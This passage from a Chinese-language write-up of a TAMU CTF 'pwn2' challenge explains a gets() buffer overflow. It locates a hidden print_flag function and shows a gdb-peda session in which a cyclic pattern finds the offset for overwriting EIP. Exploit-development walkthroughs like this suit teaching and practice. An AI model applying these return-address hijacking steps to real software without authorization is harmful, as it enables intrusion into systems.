 <img src="/images/posts/TAMU pwn/1519642436681.png" height="300" width="600"> 


可以发现有个print_flag()函数
然后回到分析该函数，找到该函数地址
我们可以看到这是一个隐藏的print_flag函数，我们可以在启动缓冲区溢出后调用它。

容易知道print_flag的地址：0x0804854b

<img src="/images/posts/TAMU pwn/1519642630764.png" height="300" width="600"> 

其次需要找到return的偏移地址
原因：在突出显示的行gets被调用以读取用户输入。正如我们在pwn1函数gets中已经看到的那样，没有进行任何边界检查，因此可能导致缓冲区溢出。
在pwn1我们使用缓冲区溢出来覆盖堆栈上的局部变量。除了局部变量之外，每个函数调用的返回地址都存储在堆栈中。将ret在函数的结束指令从栈中弹出这个返回地址，并把它放入指令指针eip。通过这种方式执行存储在返回地址的指令。

这里可以利用eip寄存器的作用来找到其偏移地址

详细利用过程如下：
```
gdb-peda$ pattern create 300 /tmp/pattern_pwn2
Writing pattern of 300 chars to filename "/tmp/pattern_pwn2"
gdb-peda$ r < /tmp/pattern_pwn2
Starting program: /root/Desktop/TAMU_pwn/pwn2 < /tmp/pattern_pwn2
I just love repeating what other people say!
I bet I can repeat anything you tell me!
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%

Program received signal SIGSEGV, Segmentation fault.

[----------------------------------registers-----------------------------------]
EAX: 0x12d 
EBX: 0x0 
ECX: 0xfbad0087 
EDX: 0xb7fb1870 --> 0x0 
ESI: 0x1 
EDI: 0xb7fb0000 --> 0x1b2db0 
EBP: 0x25416125 ('%aA%')
ESP: 0xbffff290 ("A%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%")
EIP: 0x46254130 ('0A%F')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x46254130
[------------------------------------stack-------------------------------------]
0000| 0xbffff290 ("A%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%")
```